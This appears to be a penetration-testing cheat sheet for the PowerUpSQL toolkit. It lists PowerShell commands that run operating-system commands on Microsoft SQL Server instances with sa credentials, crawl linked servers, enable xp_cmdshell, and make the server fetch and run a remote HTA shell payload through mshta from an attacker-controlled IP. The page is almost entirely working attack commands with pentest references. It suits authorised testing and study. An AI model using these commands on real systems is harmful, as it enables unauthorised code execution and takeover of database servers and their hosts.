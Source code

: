 # PowerUpSQL

## 01 - Invoke-SQLOSCmd

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<IP>.<domain_name>,1433" -Command "<command>" -RawResults
```

## 02 - Get-SQLServerLinkCrawl

```
PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Verbose

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLink -Username sa -Password <password> -Instance <domain_name>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

---
## References

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)